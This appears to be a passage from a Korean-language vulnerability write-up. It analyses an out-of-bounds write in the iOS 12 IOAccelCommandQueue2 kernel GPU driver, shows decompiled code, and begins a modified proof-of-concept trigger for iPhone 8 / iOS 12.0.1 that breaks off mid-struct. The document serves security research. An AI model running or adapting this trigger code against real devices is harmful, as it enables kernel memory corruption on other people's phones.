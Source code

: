```cpp
      "%s:kIOAccelKernelCommandCollectTimeStamp: Insufficient bytes (%llu) for sIOAccelKernelCommandCollectTimeStampArgs (%lu)\n",
      "virtual void IOAccelCommandQueue2::processSegmentKernelCommand(IOAccelSegmentResourceList *, const sIOAccelKernelC"
      "ommand *, const sIOAccelKernelCommand *)",
      (char *)kernelCommandEnd - (char *)kernelCommand,
      8);
    goto LABEL_11;
  }
  ***(_QWORD *)&kernelCommand->field_8 = j__mach_absolute_time_75();  // OOB Write
}**
```

# 트리거 방법

우선 아래의 PoC 코드를 아이폰8 / iOS 12.0.1 환경에서 실행시켜야 하는데 약간의 변경사항을 적용해놓았다.

원래 게시된 poc 코드 중 서비스를 `AGXAccelerator` 대신에 `IOGraphicsAccelerator2`로,
`IOAccelCommandQueue2_type`은 iOS 12에서는 4 대신에 5로 수정시켜주어야 작동하였다.

```cpp
#include <CoreFoundation/CoreFoundation.h>
#include <mach/mach.h>
#include <pthread.h>

typedef mach_port_t io_object_t;
typedef io_object_t io_connect_t;
typedef io_object_t io_service_t;
typedef char io_name_t[128];

#define IO_OBJECT_NULL	(MACH_PORT_NULL)
extern const mach_port_t kIOMasterPortDefault;
kern_return_t IOObjectGetClass(io_object_t object, io_name_t className);
kern_return_t IOObjectRelease(io_object_t object);
io_service_t IOServiceGetMatchingService(mach_port_t masterPort, CFDictionaryRef matching CF_RELEASES_ARGUMENT);
kern_return_t IOServiceOpen(io_service_t service, task_port_t owningTask, uint32_t type, io_connect_t *connect);
kern_return_t IOServiceClose(io_connect_t connect);
CFMutableDictionaryRef IOServiceMatching(const char *name ) CF_RETURNS_RETAINED;
kern_return_t IOConnectAddClient(io_connect_t connect, io_connect_t client);
kern_return_t IOConnectCallMethod(mach_port_t connection, uint32_t selector, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt) AVAILABLE_MAC_OS_X_VERSION_10_5_AND_LATER;
kern_return_t IOConnectCallAsyncMethod(mach_port_t connection, uint32_t selector, mach_port_t wake_port, uint64_t *reference, uint32_t referenceCnt, const uint64_t *input, uint32_t inputCnt, const void *inputStruct, size_t inputStructCnt, uint64_t *output, uint32_t *outputCnt, void *outputStruct, size_t *outputStructCnt) AVAILABLE_MAC_OS_X_VERSION_10_5_AND_LATER;

const int IOAccelCommandQueue2_type = 5;
const int IOAccelSharedUserClient2_type = 2;
const int IOAccelSharedUserClient2_create_shmem_selector = 5;
const int IOAccelCommandQueue2_set_notification_port_selector = 0;
const int IOAccelCommandQueue2_submit_command_buffers_selector = 1;

struct IOAccelDeviceShmemData {
	void *data;
	uint32_t length;
	uint32_t shmem_id;
};

struct IOAccelCommandQueueSubmitArgs_Header {
	uint32_t _unk_1;
```